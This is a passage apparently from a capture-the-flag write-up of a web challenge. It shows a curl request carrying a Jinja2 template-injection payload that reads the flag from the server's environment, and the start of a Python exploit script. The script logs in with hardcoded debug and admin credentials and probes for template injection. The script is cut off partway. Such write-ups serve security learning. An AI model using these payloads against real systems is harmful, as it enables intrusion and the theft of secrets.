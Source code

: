 ```bash
curl -b cookies.txt -X POST \
  -d "subject_ids=1&report_type=html&custom_template={{ namespace.__init__.__globals__['os'].environ.get('FLAG') }}" \
  http://challs.0x4m4.com:8081/admin/generate_report
```

## Complete Exploitation Script

Here's my complete Python script for automated exploitation:

```python
#!/usr/bin/env python3
import requests
import re
from urllib.parse import urljoin

class DataExfiltrationExploit:
    def __init__(self, base_url):
        self.base_url = base_url
        self.session = requests.Session()
        
    def discover_debug_page(self):
        """Discover and access the debug page"""
        print("[*] Accessing debug page...")
        debug_url = urljoin(self.base_url, '/debug')
        
        # Try the debug password
        data = {'password': 'debug_regime_2025'}
        response = self.session.post(debug_url, data=data)
        
        if "System Information" in response.text:
            print("[+] Debug page accessed successfully!")
            return True
        return False
    
    def login_admin(self):
        """Login with discovered admin credentials"""
        print("[*] Logging in as admin...")
        login_url = urljoin(self.base_url, '/login')
        
        data = {
            'username': 'regime_admin',
            'password': 'AI_controls_all_1984!'
        }
        
        response = self.session.post(login_url, data=data)
        
        if "dashboard" in response.text.lower() or response.status_code == 302:
            print("[+] Admin login successful!")
            return True
        return False
    
    def test_ssti(self):
        """Test for SSTI vulnerability"""
        print("[*] Testing for SSTI vulnerability...")
        report_url = urljoin(self.base_url, '/admin/generate_report')
        
        # Simple math test
        data = {
            'subject_ids': '1',
            'report_type': 'html',
            'custom_template': '{{7*7}}'
        }
```